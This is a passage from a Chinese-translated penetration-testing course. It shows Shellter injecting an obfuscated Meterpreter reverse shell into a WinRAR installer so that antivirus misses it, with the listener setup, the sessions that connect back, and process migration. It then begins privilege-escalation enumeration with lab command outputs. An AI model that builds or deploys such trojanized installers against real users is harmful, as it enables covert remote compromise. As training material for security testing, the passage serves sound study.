由于 Shellter 设计为在 Windows 操作系统上运行，我们还将安装 `wine`，这是一个兼容性层，可以在多个符合 POSIX 标准的操作系统上运行 win32 应用程序。

`kali@kali:~$ apt install wine`

安装完成后，在终端中运行 `shellter` 将为我们提供在 `wine` 下运行的新控制台。


Shelter 可以以自动或手动模式运行。在手动模式下，该工具将启动我们要用于注入的 PE，并允许我们在更细粒度的级别上操作它。我们可以使用此模式高度定制注入过程，以防自动选择的选项失败。

然而，为了本示例的目的，我们将通过在提示符处选择 `A` 让 Shelter 以自动模式运行。

接下来，我们必须选择一个目标 PE。Shelter 将分析并改变执行流程以注入并执行我们的载荷。在本示例中，我们将使用流行的 WinRAR 实用程序的 32 位试用版可执行安装程序作为我们的目标 PE。

在对原始 PE 进行任何分析和修改之前，Shelter 会先创建该文件的备份：


*图 270：在 shellter 中选择目标 PE 并进行备份*

一旦 Shellter 找到适合注入我们载荷的位置，它会询问我们是否希望启用隐身模式（Stealth Mode），该模式将尝试在载荷执行后恢复 PE 的执行流程。我们将选择启用隐身模式，因为我们希望 WinRAR 安装程序表现正常，以避免引起任何怀疑。

此时，我们将看到可用载荷的列表。这些包括流行选项，如 `meterpreter`，但 Shellter 也支持自定义载荷。


图 271：shellter 中可用载荷的列表

注意，为了通过隐身模式选项恢复执行流程，自定义载荷必须以退出当前线程来终止。

鉴于 Avira 检测到了我们之前生成的 `meterpreter` PE，我们将使用相同的载荷设置来测试 Shellter 的绕过能力。选择载荷后，我们将看到来自 Metasploit 的默认选项，例如反向 shell 主机 `LHOST` 和端口 `LPORT`：


图 272：shellter 中的载荷选项

设置好所有参数后，Shellter 将把载荷注入到 WinRAR 安装程序中，并尝试到达载荷的第一条指令。


图 273：shellter 验证注入

现在测试成功了，在将恶意 PE 文件传输到我们的 Windows 客户端之前，我们将在 Kali 机器上配置一个监听器，以与 `meterpreter` 载荷进行交互。

```
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- ---------------- -------- -----------

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description

---- ---------------- -------- -----------

EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 10.11.0.4 yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.0.4:4444
```

列表 511 - 为 meterpreter 载荷设置处理程序

接下来，我们将使用 Avira 手动扫描生成的文件：


由于 Shellter 在将有效载荷及其解码器注入 PE 之前对两者都进行了混淆，Avira 的基于签名的扫描结果很干净。它不会将该二进制文件视为恶意软件。

当我们执行该文件时，会出现默认的 WinRAR 安装窗口，该软件通常会正常安装而不出任何问题。回顾我们的处理器（handler），我们可以看到成功接收了一个 Metaspeter 会话，但会话在安装完成或取消后似乎会终止：

```
[*] Sending stage (179779 bytes) to 10.11.0.22

[*]  Meterpreter session 3 opened  (10.11.0.4:4444  ->  10.11.0.22:51367)

meterpreter >

[*] 10.11.0.22  - Meterpreter  session 3 closed.  Reason: Died
```
列表 512 · 接收 Meterpreter 会话

这合情合理，因为安装程序的执行已经完成，并且该进程已被终止。为了解决这个问题，我们可以设置一个 `AutoRunScript`，在创建会话后立即将我们的 Meterpreter 迁移到一个单独的进程中。如果在这个对监听器实例的更改之后重新运行 WinRAR 安装文件，我们应该会得到不同的结果：

```
msf exploit(multi/handler)  >  set AutoRunScript post/windows/manage/migrate

AutoRunScript => post/windows/manage/migrate

msf exploit(multi/handler)  >  exploit

[*] Started reverse TCP  handler on 10.11.0.4:4444

[*] Sending stage (179779 bytes) to 10.11.0.22

[*]  Meterpreter session 4 opened  (10.11.0.4:4444  ->  10.11.0.22:51371)

[*] Session ID 4 (10.11.0.4:4444  ->  10.11.0.22:51371)  processing AutoRunScript  'post/windows/manage/migrate'

[*] Running module against DESKTOP-T27O4CT

[*] Current server process: wwr550.exe  (4036)

[*] Spawning notepad.exe process to migrate to

[*] Migrating to 4832

[*]  Successfully migrated to process 4832

meterpreter > getuid

Server username: DESKTOP-T2704CT\offsec
```


```
列表 513 · 将 Meterpreter 外壳迁移到新生成的进程中
```

迁移完成后，即使我们完成 WinRAR 安装过程或取消它，会话也将保持活动状态。

### 17.3.3.4 练习

- 1. 在 WinRAR 可执行文件中注入 Meterpreter 反向 shell 有效载荷。
- 2. 将二进制文件传输到你的 Windows 客户端，并确保它未被杀毒软件检测到。
- 3. 运行 WinRAR 安装程序并迁移你的 Meterpreter 外壳以防止断开连接。
- 4. 尝试查找其他可执行文件，并使用 Shelter 向其中注入恶意代码。

## 17.4 总结

在本模块中，我们讨论了杀毒软件的目的以及供应商检测恶意代码最常用的方法。我们简要解释了各种涉及不同内存中 shellcode 注入技术的杀毒软件绕过方法，并展示了使用 Shelter 和 PowerShell 成功绕过检测的过程。

虽然我们在两个示例中成功绕过了杀毒软件检测，但我们才刚刚触及恶意软件检测与规避这一主题的表面。为了进一步阅读，并了解恶意软件编写者规避现代防御所需付出的巨大努力，我们鼓励大家阅读微软的优秀文章“FinFisher 曝光：一位研究人员战胜陷阱、诡计和复杂虚拟机的故事”。⁴³⁸

⁴³⁸ (Microsoft, 2018). https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/

## 18. 权限提升

在渗透测试期间，我们经常以标准用户或非特权用户的身份在系统上获取初始立足点。在这种情况下，我们通常会在展示完全被妥协的影响之前寻求获取额外的访问权限。这个过程被称为权限提升，由于在现代环境中“直接到根”（direct-to-root）的妥协情况可能较为罕见，因此这是一项必要的技能。

在本模块中，我们将假设我们已经在基于 Windows 和 Linux 的目标上获取了非特权用户访问权限，并将演示在这些目标上执行权限提升的技术。

虽然由于操作系统版本、补丁级别以及各种其他因素的不同，每个目标都可以被视为独特的，但存在一些常见的提升方法。为了利用这些方法，我们将搜索配置错误的服务、对二进制文件或服务的文件权限限制不足、直接的内核漏洞、以高权限运行的易受攻击的软件、存储在本地文件中的敏感信息、执行二进制文件前总是提升权限的注册表设置、可能包含硬编码凭据的安装脚本以及许多其他方面。

### 18.1 信息收集

在攻陷目标并以非特权用户身份获取初始立足点后，我们的第一步是尽可能多地收集有关目标的信息。这使我们能够更好地理解被攻陷机器的性质，并发现可能的权限提升途径。

在本节中，我们将探索手动⁴³⁹⁴⁴⁰和自动化的信息收集与枚举技术，并讨论每种方法的优缺点。

#### 18.1.1 手动枚举

手动枚举系统可能很耗时。然而，这种方法提供了更多的控制权，并有助于识别自动化工具通常遗漏的更多奇特权限提升方法。

本模块中的一些命令可能需要根据目标操作系统版本进行小幅修改。此外，本节中介绍的所有命令都无法在专用客户端上完全复现。

#### 18.1.1.1 枚举用户

在获取目标的初始访问权限时，我们需要识别的第一件事之一就是用户上下文。在 Windows 和 Linux 平台上都可用的 `whoami` 命令是一个很好的起点。

⁴³⁹ (G0tm1k, 2011). https://blog.g0tm1k.com/2011/08/basic-linux-privilege-escalation/
⁴⁴⁰ (FuzzySecurity, 2014). https://www.fuzzysecurity.com/tutorials/16.html

在不带参数运行的情况下，`whoami` 将显示 shell 正在运行的用户名。在 Windows 上，我们可以将发现的组合作为参数传递给 `net user`⁴⁴¹ 命令以收集更多信息。

```
C:\Users\student>whoami

client251\student

C:\Users\student>net user student

User name		student

Full Name

Comment

User's comment

Country/region code	000 (System Default)

Account active	Yes

Account expires	Never

Password last set	3/31/2018 10:37:35 AM

Password expires	Never

Password changeable	3/31/2018 10:37:35 AM

Password required	No

User may change password	Yes

Workstations allowed	All

Logon script

User profile

Home directory

Last logon		11/8/2019 12:56:15 PM

Logon hours allowed	All

Local Group Memberships	*Remote Desktop Users *Users

Global Group memberships	*None

The command completed successfully.
```
列表 514 - 获取 Windows 上的用户信息

根据上述输出，我们是以 *student* 用户身份运行，并收集了包括用户所属组在内的额外信息。

在基于 Linux 的系统中，我们可以使用 `id`⁴⁴² 命令来收集用户上下文信息：

```
student@debian:~$ id

uid=1006(student) gid=1006(student) groups=1006(student)
```
列表 515 - 获取 Linux 上的用户信息

输出显示我们以 *student* 用户身份操作，该用户具有用户标识符 (UID)⁴⁴³ 和组标识符 (GID) 为 1000。

⁴⁴¹ (Microsoft, 2016), https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(\\%3Dw.11)
⁴⁴² (Linux man-pages project, 2019), http://man7.org/linux\\/man-pages/man1/id.1.html
⁴⁴³ (Wikipedia, 2019), https://en.wikipedia.org/wiki/User\\_identifier


要在系统上发现其他用户账户，我们可以使用 Windows 系统上的 `net user` 命令。

```
C:\Users\student>net user

User accounts for \\CLIENT251

----------------------------------------------------------

	admin		Administrator	DefaultAccount

Guest		student		WDAGUtilityAccount

The command completed successfully.
```
列表 5.16 - 获取 Windows 上的用户信息

输出揭示了其他账户，包括 *admin* 账户。

要在基于 Linux 的系统上枚举用户，我们只需读取 `/etc/passwd` 文件的内容即可。

```
student@debian:~$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

...

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

...

speech-dispatcher:x:108:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false


sshd:x:109:65534::/run/sshd:/usr/sbin/nologin

...

xrdp:x:114:120::/var/run/xrdp:/bin/false

student:x:1000:1000:Student,PKW,,:/home/student:/bin/bash

mysql:x:115:121:MySQL Server,,,:/nonexistent:/bin/false

```
列表 5.17 - 获取 Linux 上的用户信息
```

`passwd`文件列出了几个用户账户，包括目标机器上各种服务使用的账户，例如`www-data`，这表明很可能安装了 Web 服务器。

枚举目标机器上的所有用户有助于识别我们可以作为目标的高权限用户账户，以尝试提升我们的权限。

### 18.1.1.2 枚举主机名

机器的主机名通常可以提供有关其功能角色的线索。绝大多数情况下，主机名将包含可识别的缩写，例如 Web 服务器的`web`、数据库服务器的`db`、域控制器的`dc`等。


我们可以使用名为`hostname`[^444][^445]的命令来发现主机名，该命令在 Windows 和 Linux 上均已安装。

让我们在 Windows 上运行它：

```
C:\Users\student>hostname

client251
```

*列表 518 – 在 Windows 上获取主机名信息*

然后在 Linux 上运行：

```
student@debian:~$ hostname

debian
```

*列表 519 – 在 Linux 上获取主机名信息*

Windows 机器相当通用的名称暗示了网络中可能存在一种命名约定，这有助于我们查找其他工作站，而 Linux 客户端的主机名则提供了关于所用操作系统（Debian）的信息。

识别机器的角色可以帮助我们集中信息收集工作。

### 18.1.1.3 枚举操作系统版本和架构

在权限提升过程的某个阶段，我们可能需要依赖专门针对目标操作系统核心漏洞的*内核*[^446]利用程序。这类利用程序是为非常具体的目标类型构建的，由特定的操作系统和版本组合作为标识。由于使用不匹配的内核利用程序攻击目标可能导致系统不稳定（导致访问权限丢失并很可能引起系统管理员警觉），因此我们必须收集关于目标的精确信息。

在 Windows 操作系统上，我们可以使用`systeminfo`[^447]实用工具来收集具体的操作系统和架构信息。

我们还可以使用`findstr`[^448]以及一些有用的标志来过滤输出。具体而言，我们可以使用`/B`匹配行首的模式，并使用`/C:`指定特定的搜索字符串。

在下面的示例中，我们将使用这些标志来提取操作系统名称（Name）及其版本（Version）和架构（System）。

```
C:\Users\student>systeminfo  |  findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

    Microsoft Windows 10 Pro

    10.0.16299 N/A Build 16299

    X86-based PC
```

*列表 520 – 获取运行中操作系统的版本和架构*


输出表明，目标系统运行的是 x86 架构上的 Windows 10 Pro 版本 10.0.16299。

在 Linux 上，`/etc/issue`和`/etc/*-release`文件包含类似的信息。我们也可以执行`uname -a`[^449]命令：

```
student@debian:~$ cat /etc/issue

Debian GNU/Linux \n \n

student@debian:~$ cat /etc/*-release

PRETTY_NAME="Debian GNU/Linux 9 (stretch)"

NAME="Debian GNU/Linux"

VERSION_ID="9"

VERSION="9 (stretch)"

ID=debian

...

student@debian:~$ uname -a

Linux debian 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686 GNU/Linux
```

> 列表 521 - 获取运行中操作系统的版本和架构

位于`/etc`目录中的文件包含操作系统版本（Debian 9），并且`uname -a`输出内核版本（4.9.0-6）和架构（i686 / x86）。

### 18.1.1.4 枚举正在运行的进程和服务

接下来，让我们看看可能允许我们提升权限的正在运行的进程和服务。为了实现这一点，进程必须以特权账户上下文运行，并且要么具有不安全的权限，要么允许我们以非预期的方式与其交互。

我们可以使用`tasklist`[^450]命令列出 Windows 上正在运行的进程。`/SVC`标志将返回映射到特定 Windows 服务的进程。

```
C:\Users\student>tasklist /SVC
```

| 映像名称 | PID | 服务 |
|---|---|---|
| lassa.exe | 564 | KeyIso, Netlogon, SamSs, VaultSvc |
| svchost.exe | 676 | BrokerInfrastructure, DcomLaunch, LSM, PlugPlay, Power, SystemEventsBroker |
| fontdrvhost.exe | 684 | N/A |
| fontdrvhost.exe | 692 | N/A |
| svchost.exe | 776 | RpcEptMapper, RpcSs |
| dwm.exe | 856 | N/A |
| svchost.exe | 944 | Appinfo, BITS, DsmSvc, gpsvc, IKEEXT, iphlpsvc, LanmanServer, lmsvc, ProfSvc, Schedule, SENS, SessionEnv, ShellHwDetection, Themes, TokenBroker, UserManager, winmgmt, WpnService |
| svchost.exe | 952 | TermService |
| svchost.exe | 960 | BFE, CoreMessagingRegistrar, DPS, MpsSvc |
| svchost.exe | 988 | Dhcp, EventLog, Imahosts, TimeBrokerSvc, WindowsAutoProxySvc, wscsvc |
| ... | | |
| mysqld.exe | 1816 | mysql |
| ... | | |

> 列表 522 - 获取操作系统上正在运行的进程列表及匹配的服务

输出显示该机器上正在运行`MySQL`服务，在特定条件下这可能引起我们的兴趣。

请记住，此输出并未列出由特权用户运行的进程。在基于 Windows 的系统上，我们需要较高的权限才能收集此信息，这使得过程更加困难。

在 Linux 上，我们可以使用`ps`[^451]命令列出系统进程（包括由特权用户运行的进程）。我们将使用`a`和`x`标志列出所有具有或不具有`tty`[^452]的进程，并使用`u`标志以用户可读的格式列出进程。

```bash
student@debian:~$ ps axu

USER      PID %CPU %MEM    VSZ   RSS STAT         START TIME COMMAND

root       1  0.0  0.6  28032  6256 Ss   Nov07    0:03 /sbin/init

root       2  0.0  0.0     0     0 S    Nov07    0:00 [kthreadd]

root     254  0.0  0.9  54536  9924 Ss   Nov07    1:45 /usr/bin/vmtoolsd

root     255  0.0  0.0     0     0 S    Nov07    0:00 [kworker/0:1]

root     259  0.0  0.4  25956  5108 S    Nov07    0:01 /lib/systemd/systemd-journald

root     294  0.0  0.4  17096  4996 Ss   Nov07    0:00 /lib/systemd/systemd-udeved
```


```
system+  309  0.0  0.3  16884  3940 Ssl  Nov07    0:07 /lib/systemd/systemd-timesyncd

root     359  0.0  0.0     0     0 S    Nov07    0:00 [ttm_swap]

root     514  0.0  1.5  53964 16720 Sl   Nov07    0:00 /usr/bin/VGAuthService

root     515  0.0  0.2   5256  2816 Ss   Nov07    0:00 /usr/sbin/cron -f

message+ 518  0.0  0.3   6368  3896 S    Nov07    0:37 /usr/bin/dbus-daemon --system

rtkit    523  0.0  0.3  24096  3156 SNsl Nov07    0:00 /usr/lib/rtkit/rtkit-daemon

...

student 8868  0.0  0.3   7664  3336 R+   Nov07   14:25 ps axu
```

> 列表 523 - 获取 Linux 上正在运行的进程列表

输出列出了几个以 root 身份运行且值得研究以查找潜在漏洞的进程。请注意，我们的 `ps` 命令也列在输出中。

### 18.1.1.5 枚举网络信息

分析目标主下一步是审查可用的网络接口、路由和开放端口。

这些信息有助于我们确定被入侵的目标是否连接到多个网络，因此可以被用作跳板（pivot）。此外，特定虚拟接口的存在可能表明虚拟化或防病毒软件的存在。


> 攻击者可能会使用被入侵的目标进行跳板（pivot），即在连接的网络之间移动。这将扩大网络可见性，并允许攻击者针对无法从原始攻击机器直接看到的宿主。

我们还可以调查端口绑定，以查看正在运行的服务是否仅在环回地址上可用，而不是在可路由的地址上。调查监听环回接口的特权程序或服务可以扩大我们的攻击面，并增加权限提升攻击的成功率。

我们可以从 Windows 操作系统上的 `ipconfig`[^453] 开始收集信息，使用 `/all` 标志显示所有适配器的完整 TCP/IP 配置。

```
C:\Users\student> ipconfig /all
```

**Windows  ip 配置**

主机名 . . . . . . . . . . . . : client251
主 Dns 后缀 . . . . . . . . . : corp.com
节点类型 . . . . . . . . . . . : Hybrid
启用 IP 路由. . . . . . . . . : No
启用 WINS 代理. . . . . . . . : No
DNS 后缀搜索列表. . . . . . : corp.com

**以太网 适配器 Ethernet0:**

连接专用 DNS 后缀 . :
描述 . . . . . . . . . . . . . : Intel(R) 82574L 千兆网络连接
物理地址. . . . . . . . . . . . : 00-0C-29-C1-ED-B0
启用 DHCP. . . . . . . . . . . : No
启用自动配置 . . . . . . . . : Yes
链路本地 IPv6 地址 . . . . . . : fe80::bc64:ab2f:a10f:edc9%15(Preferred)
IPv4 地址. . . . . . . . . . . : 10.11.0.22(Preferred)
子网掩码 . . . . . . . . . . . : 255.255.255.0
默认网关 . . . . . . . . . . . :
DHCPv6 IAID . . . . . . . . . . : 83889193
DHCPv6 客户 DUID. . . . . . . . : 00-01-00-01-25-55-82-FF-00-0C-29-C1-ED-B0
DNS 服务器 . . . . . . . . . . . : 10.11.0.2
NetBIOS over Tcpip. . . . . . . . : Enabled

**以太网 适配器 Ethernet1:**

连接专用 DNS 后缀 . :
描述 . . . . . . . . . . . . . : Intel(R) 82574L 千兆网络连接 #2
物理地址. . . . . . . . . . . . : 00-0C-29-C1-ED-BA
启用 DHCP. . . . . . . . . . . : No
启用自动配置 . . . . . . . . : Yes
链路本地 IPv6 地址 . . . . . . : fe80::9d3e:158a:241b:b6b7%4(Preferred)
IPv4 地址. . . . . . . . . . . : 192.168.1.111(Preferred)
子网掩码 . . . . . . . . . . . : 255.255.255.0

[^444]: (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/hostname
[^445]: (Peter Tobias, 2003). https://linux.die.net/man/1/hostname
[^446]: (Wikipedia, 2019). https://en.wikipedia.org/wiki/Kernel_(operating_system)
[^447]: (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo
[^448]: (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
[^449]: (David MacKenzie, 2003), https://linux.die.net/man/1/uname
[^450]: (Microsoft, 2017), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist
[^451]: (Linux man-pages project, 2018, http://man7.org/linux/man-pages/man1/ps.1.html)
[^452]: (Linus Åkesson, 2018, https://www.linusakesson.net/programming/tty/)
[^453]: (Microsoft, 2017), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/ipconfig

默认网关 . . . . . . . . . . . . . . . . . : 192.168.1.1
DHCPv6 IAID . . . . . . . . . . . . . . . : 167775273
DHCPv6 客户端 DUID. . . . . . . . . : 00-01-00-01-25-55-82-FF-00-0C-29-C1-ED-B0
DNS 服务器 . . . . . . . . . . . . . . . : fec0:0:0:ffff::1%1
                              fec0:0:0:ffff::2%1
                              fec0:0:0:ffff::3%1
通过 TCP 的 NetBIOS. . . . . . . . : 已启用


这台机器确实拥有多个网络接口。接下来，让我们仔细查看其路由表。

要显示网络路由表，我们将使用 `route` 命令并附加 `print` 参数。

```
C:\Users\Student>route print
=====================================================================

接口列表

 15...00 0c 29 c1 ed b0 ...Intel(R) 82574L Gigabit 网络连接
```


4...00 0c 29 c1 ed ba ....Intel(R) 82574L Gigabit 网络连接 #2

1.............................软件循环接口 1

=====================================================================

### IPv4 路由表

=====================================================================

活动路由：

网络目标           子网掩码          网关           接口            跃点数

          0.0.0.0          0.0.0.0      192.168.1.1    192.168.1.111      281

          0.0.0.0          0.0.0.0        10.11.0.2       10.11.0.22      281

         10.11.0.0     255.255.255.0         On-link       10.11.0.22      281

         10.11.0.22     255.255.255.255       On-link       10.11.0.22      281

         10.11.0.255    255.255.255.255       On-link       10.11.0.22      281

          127.0.0.0         255.0.0.0       On-link       127.0.0.1       331

          127.0.0.1    255.255.255.255       On-link       127.0.0.1       331

       127.255.255.255  255.255.255.255       On-link       127.0.0.1       331

       192.168.1.0     255.255.255.0       On-link     192.168.1.111      281

       192.168.1.111   255.255.255.255       On-link     192.168.1.111      281

       192.168.1.255   255.255.255.255       On-link     192.168.1.111      281

          224.0.0.0       240.0.0.0       On-link       127.0.0.1       331

          224.0.0.0       240.0.0.0       On-link     192.168.1.111      281

          224.0.0.0       240.0.0.0       On-link       10.11.0.22      281

       255.255.255.255  255.255.255.255       On-link       127.0.0.1       331

       255.255.255.255  255.255.255.255       On-link     192.168.1.111      281

       255.255.255.255  255.255.255.255       On-link       10.11.0.22      281

=====================================================================

持久路由：

网络地址          子网掩码  网关地址       跃点数

          0.0.0.0          0.0.0.0      192.168.1.1     默认

          0.0.0.0          0.0.0.0      10.11.0.2     默认

=====================================================================

> ⁶⁵⁴ (Microsoft, 2015), https://docs.microsoft.com/en-us/previous-versions/windows/embedded/jj089818(v=w inemb embedded.70)

### IPv6 路由表

活动路由：

接口 跃点数 网络目标 网关
1 331 ::/128 On-link
4 281 fe80::/64 On-link
15 281 fe80::/64 On-link
4 281 fe80::9d3e:158a:241b:beb7/128 On-link
15 281 fe80::bc64:ab2f:a10f:edc9/128 On-link
1 331 ff00::/8 On-link
4 281 ff00::/8 On-link
15 281 ff00::/8 On-link

持久路由：
无

## 列表 525 - 在 Windows 上打印路由

最后，我们可以使用 `netstat` 来查看活动的网络连接。指定 `a` 标志将显示所有活动的 TCP 连接，`n` 标志允许我们以数字形式显示地址和端口号，而 `o` 标志将显示每个连接的所有者 PID。

```
C:\Users\Student>netstat -ano

活动连接

协议 本地地址 远程地址 状态 PID

TCP 0.0.0.0:80 0.0.0.0:0 LISTENING 7432

TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 776

TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4

TCP 0.0.0.0:3306 0.0.0.0:0 LISTENING 1472

TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING 952

TCP 0.0.0.0:8895 0.0.0.0:0 LISTENING 2284

TCP 0.0.0.0:9121 0.0.0.0:0 LISTENING 7432

...

TCP 127.0.0.1:49689 127.0.0.1:49690 ESTABLISHED 2284

TCP 127.0.0.1:49690 127.0.0.1:49689 ESTABLISHED 2284

TCP 127.0.0.1:49691 127.0.0.1:49692 ESTABLISHED 2284

TCP 127.0.0.1:49692 127.0.0.1:49691 ESTABLISHED 2284

...
```

## 列表 526 - 列出 Windows 操作系统上的所有活动网络连接

`netstat` 不仅为我们提供了机器上所有监听端口的列表，还包括了有关已建立连接的信息，这些信息可能揭示出连接到这台机器、我们稍后可能想要针对的其他用户。

> ⁴⁶⁵ (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/netstat

基于 Linux 的主机上也有类似的命令。根据 Linux 的版本，我们可以使用 `ifconfig` 或 `ip` 来列出每个网络适配器的 TCP/IP 配置。这两个命令都接受 `a` 标志以显示所有可用信息。

```
student@debian:~ $ ip a

.

.

.

4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000

    link/ether 00:50:56:8a:4d:48 brd ff:ff:ff:ff:ff:ff

    inet 10.11.0.128/24 brd 10.11.0.255 scope global ens192

       valid_lft forever preferred_lft forever

    inet6 fe80::250:56ff:fe8a:4d48/64 scope link 

       valid_lft forever preferred_lft forever

5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
```


    link/ether 00:50:56:8a:5c:5e brd ff:ff:ff:ff:ff:ff

    inet 192.168.1.112/24 brd 192.168.1.255 scope global ens224

       valid_lft forever preferred_lft forever

    inet6 fe80::250:56ff:fe8a:5c5e/64 scope link 

       valid_lft forever preferred_lft forever

```
### 列表 527 - 列出 Linux 上所有可用适配器的完整 TCP/IP 配置
```

根据上述输出，该 Linux 客户端也连接到了多个网络。

我们可以根据 Linux 的版本和类型，使用 `route` 或 `route -L` 来显示网络路由表。

```
student@debian:~ $ /sbin/route

Kernel IP 路由表

| 目标 | 网关 | 生成掩码 | 标志 | 跃点数 | 引用 | 使用 | 接口 |

|---|---|---|---|---|---|---|---|

| default | 192.168.1.254 | 0.0.0.0 | UG | 0 | 0 | 0 | ens192 |

| 10.11.0.0 | 0.0.0.0 | 255.255.255.0 | U | 0 | 0 | 0 | ens224 |

| 192.168.1.0 | 0.0.0.0 | 255.255.255.0 | U | 0 | 0 | 0 | ens192 |
```

### 列表 528 - 在 Linux 上打印路由

最后，我们可以使用 `netstat` 或 `ss` 来显示活动的网络连接和监听端口，两者都接受相同的参数。

例如，我们可以使用 `-a` 列出所有连接，使用 `-n` 避免主机名解析（这可能会使命令执行停滞），并使用 `-p` 列出连接所属的进程名称。我们可以组合这些参数，简单地运行 `ss -anp`。

```
student@debian:~ $ ss -anp

Netid 状态 Recv-Q Send-Q 本地地址:端口 对端地址:端口

.

.

.

tcp   LISTEN    0      80         127.0.0.1:3306            *:*         

tcp   LISTEN    0      128        *:*                *:*       users:(("sshd",pid=484,fd=3))

tcp   ESTAB     0      48852      10.11.0.128:22        10.11.0.4:52804  
```

> ⁴⁵⁶ (Fred N. van Kempen, 2003). https://linux.die.net/man/8/ifconfig  
> ⁴⁵⁷ (Linux man-pages project, 2011). http://man7.org/linux/man-pages/man8/ip.8.html  
> ⁴⁵⁸ (Phil Blundell, 2003). https://linux.die.net/man/8/route  
> ⁴⁵⁹ (Linux man-pages project, 2008). http://man7.org/linux/man-pages/man8/routel.8.html  
> ⁴⁶⁰ (Bernd Eckenfels, 2003). https://linux.die.net/man/8/netstat  
> ⁴⁶¹ (Linux man-pages project, 2019). http://man7.org/linux/man-pages/man8/ss.8.html

```
tcp   LISTEN    0      128        :::22             :::*       users:(("sshd",pid=484,fd=4))

tcp   LISTEN    0      2          :::13355          :::*       users:(("teamviewer",pid=895,fd=7))

tcp   LISTEN    0      2          :::3389           :::*       users:(("sshd",pid=484,fd=5))
```

### 列表 529 - 列出 Linux 上所有活动网络连接

该输出列出了各种监听端口和活动会话，包括我们自己的活动 SSH 连接。

## 18.1.1.6 枚举防火墙状态和规则

一般来说，防火墙的状态、配置文件和规则仅在评估的远程利用阶段才感兴趣。然而，这些信息在权限提升过程中可能很有用。例如，如果一个网络服务由于被防火墙阻止而无法从远程访问，它通常可以通过环回接口在本地访问。如果我们可以在本地与这些服务交互，我们可能能够利用它们来在本地系统上提升我们的权限。

此外，我们可以在此阶段收集有关传入和传出端口过滤的信息，以便在转向内部网络时促进端口转发和隧道技术。

在 Windows 上，我们可以使用 `netsh` 命令检查当前的防火墙配置文件。

```
C:\\Users\\student>netsh advfirewall show currentprofile

公共配置文件设置：

-------------------------------------------------

状态    开

防火墙策略        阻止传入，允许传出

本地防火墙规则     N/A (仅 GPO 存储)

本地用户规则       N/A (仅 GPO 存储)

传入用户通知    启用

远程管理       禁用

单播对多播的响应  启用

日志记录：

记录允许的连接    禁用

记录阻止的连接    禁用

文件名 %systemroot%\system32\LogFiles\Firewall\pfwfirewall.log

最大文件大小 4096

确定。
```

### 列表 530 - 列出 Windows 上防火墙的当前配置文件

在这种情况下，当前防火墙配置文件处于活动状态，因此让我们更仔细地查看防火墙规则。我们可以使用 `netsh` 命令按照以下语法列出防火墙规则：

```
C:\\Users\\student>netsh advfirewall firewall show rule name=all

规则名称:        @{Microsoft.Windows.Photos_2018.18022.15810.1000_x86__8wekyb3d8bbwe}

-------------------------------------------------

已启用:   是

方向: 入


> ⁴⁶² (Microsoft, 2019), https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts


规则名称：`@{Microsoft.Windows.Photos.2018.18022.15810.1000_x86___8wekyb3d8bbw`

已启用：是
方向：出站
配置文件：域、专用、公用
分组：Microsoft Photos
本地 IP：任意
远程 IP：任意
协议：任意
边缘遍历：否
操作：允许

规则名称：`@{Microsoft.XboxIdentityProvider_12.39.13003.1000_x86___8wekyb3d8bb`

...

---

### 列表 531 - 列出 Windows 上的所有防火墙规则

根据上述列出的两条防火墙规则，Microsoft Photos 应用程序被允许使用任意协议与任意 IP 地址建立入站和出站连接。请注意，并非所有防火墙规则都有用，但某些配置可能有助于我们扩大攻击面。

在基于 Linux 的系统上，我们需要 root 特权才能使用 `iptables` 列出防火墙规则。^463 然而，根据防火墙的配置方式，我们可能能够以标准用户身份获取有关规则的信息。

例如，在 Debian Linux 上，`iptables-persistent`^464 包默认将防火墙规则保存在 `/etc/iptables` 目录下的特定文件中。系统使用这些文件在启动时恢复 `netfilter`^465 规则。这些文件通常权限较弱，允许目标系统上的任何本地用户读取。

我们还可以搜索由 `iptables-save` 命令创建的文件，该命令用于将防火墙配置转储到用户指定的文件中。然后，该文件通常用作 `iptables-restore` 命令的输入，用于在启动时恢复防火墙规则。如果系统管理员曾经运行过此命令，我们可以搜索配置目录（`/etc`）或对文件系统进行 grep 搜索 `iptables` 命令以定位该文件。如果文件具有不安全的权限，我们可以使用其内容推断系统正在运行的防火墙配置规则。

463 (Herve Eychenne, 2003), https://linux.die.net/man/8/iptables
464 (Debian, 2019), https://packages.debian.org/search?keywords=iptables-persistent
465 (Netfilter, 2014), https://www.netfilter.org/

### 18.1.1.7 枚举计划任务

攻击者通常在权限提升攻击中利用计划任务。

